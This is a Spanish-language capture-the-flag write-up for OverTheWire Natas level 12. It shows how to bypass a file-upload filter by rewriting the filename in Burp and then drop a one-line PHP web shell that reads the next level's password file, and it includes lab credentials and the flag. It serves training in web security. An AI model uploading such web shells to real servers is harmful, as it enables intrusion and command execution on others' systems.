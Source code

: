 #Natas Level 11 → Level 12

Username: natas12

URL:      http://natas12.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas12.natas.labs.overthewire.org** 
- **Usuario    : natas12**
- **Contraseña : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3**

La contraseña la hemos sacado del nivel anterior.

Entramos a la prueba y nos muestra un mensaje en el que nos dice que podemos subir un fichero **JPEG** pero con un **límite máximo** de **1KB**

```html
Choose a JPEG to upload (max 1KB):
```

Vamos a ver que vemos en el código fuente de la prueba:

```php
<body> 
<h1>natas12</h1> 
<div id="content"> 
<?  

function genRandomString() 
{ 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) 
    { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 
    return $string; 
} 

function makeRandomPath($dir, $ext) 
{ 
    do 
    { 
        $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) 
{ 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

  if(array_key_exists("filename", $_POST)) 
  { 
      $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 
  
          if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) 
          { 
            echo "File is too big"; 
          } 
          else 
          { 
              if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) 
              { 
                  echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
              } 
              else
              { 
                  echo "There was an error uploading the file, please try again!"; 
              } 
          } 
  } 
  else 
  { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
    <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
    <input name="uploadedfile" type="file" /><br /> 
    <input type="submit" value="Upload File" /> 
</form> 

<? 
  } 
?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
```

Intentamos subir un fichero pero nos da un error probablemente relacionado con el tamaño del fichero (>1KB):

```html
There was an error uploading the file, please try again!
```

Parece que esta prueba trata de subir un fichero, en principio un **JPG**, que nos permita obtener la contraseña del reto. 

También hemos pensado que podemos **engañar** al sistema subiendo un fichero **php** con terminación en **JPG**. 

Algo así como esto:

```php
phpShell.php.jpg
```

El programa solamente mirará si la extensión del fichero es **JPG** y lo subirá la servidor.

Programamos una **Shell** en **PHP** muy sencilla que nos permitirá lanzar comandos en el servidor

```php
<?php
 passthru($_GET['cmd']);  
?>
```

Lo guardamos como **phpShell.php.jpg** con un tamaño de **35bytes** y lo intentamos subir. 

Con esto estaríamos pasando el filtro del **Tamaño* y el filtro de la **Extensión**

Pulsamos el botón de subir y nos sale este mensaje:

```html
The file upload/28plb5h3bh.jpg has been uploaded
```

Accedemos a la dirección y efectivamente tenemos nuestro objeto subido. Le intentamos cambiar la extensión a **.php** e introducirle algun comando, pero no responde.

```html
http://natas12.natas.labs.overthewire.org/upload/28plb5h3bh.jpg?cmd=ls 
```

ni tampoco con

```html
http://natas12.natas.labs.overthewire.org/upload/28plb5h3bh.php?cmd=ls 
```

Volvemos a leer el código fuente y nos damos cuenta que las funciones **makeRandomPathFromFilename** y **makeRandomPath** eliminan todo el texto anterior a la extensión **jpg**

Tenemos que conseguir **interceptar** el contenido que se envia y cambiarle la extensión a **.php** una vez que ha pasado el filtro de comprobación **jpg**

Para ello vamos a utilizar la herramienta **BURP** que podemos encontrar en la distro de Linux para **Pentesting** - **Kali Linux**

Configuramos el **proxy** del navegador apuntando al **localhost:8080** donde estará **BURP** escuchando para que luego podamos modificar los datos a nuestro antojo.

Subimos el fichero **phpShell.php.jpg** y luego lo cambiaremos luego con el **BURP**

Obtenemos lo siguiente:

```html
POST /index.php HTTP/1.1
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas12.natas.labs.overthewire.org/
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------17458871318756377591816066944
Content-Length: 515

-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="filename"

ujofljdn2f.jpg
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="uploadedfile"; filename="phpShell.php"
Content-Type: application/x-php

<?
passthru($GET_['cmd']);
?>
-----------------------------17458871318756377591816066944--
```

Interceptamos el tráfico y modificamos el valor de **filename**:
- ujofljdn2f.jpg -> phpShell.php

quedando:

```html
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="filename"

phpShell.php
```

Le damos a **Forward** en **BURP** y nos indica que hemos **subido correctamente** el fichero a la siguiente dirección

```html
The file upload/ujofljdn2f.php has been uploaded
```

**¡BIEN!** ¡Hemos podido saltarnos el filtro y subido una **Shell** al Servidor! :smile:

Entramos en la **URL** que nos han proporcionado y nos muestra este mensaje:

```php
Notice: Undefined variable: GET_ in /var/www/natas/natas12/upload/ujofljdn2f.php on line 2
Warning: passthru(): Cannot execute a blank command in /var/www/natas/natas12/upload/ujofljdn2f.php on line 2
```

Nos dice que no puede **ejecutar** un **comando en blanco**, por lo tanto **si** podemos enviarle comandos a través de la **URL**! :smile:

Montamos la **URL** y le pasamos los comandos con la opción de:
```html
?cmd=<comando>
````

quedando la URL completa así:

```html
http://natas12.natas.labs.overthewire.org/upload/ujofljdn2f.php?cmd=<comando>
```

Sabemos que la contraseña estará en la siguiente ubicación, por los niveles anteriores:

```bash
cat /etc/natas_webpass/natas13
```

Por alguna razón no me deja ejecutar los comandos que le paso desde el navegador así que modifico directamente el código para que me muestre la contraseña del siguiente **nivel13**.

```php
<?php
 passthru("cat /etc/natas_webpass/natas13");  
?>
```

Accedemos a la página y nos devuelve la contraseña del siguiente nivel! :smile:

```html
http://natas12.natas.labs.overthewire.org/upload/pntgm41zu5.php
```

NOTA: Esta última **URL** es distinta a la anterior ya que hemos tenido que subir un nuevo fichero y por lo tanto se ha generado otro nombre aleatorio.

**FLAG** = {jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY}


 












 




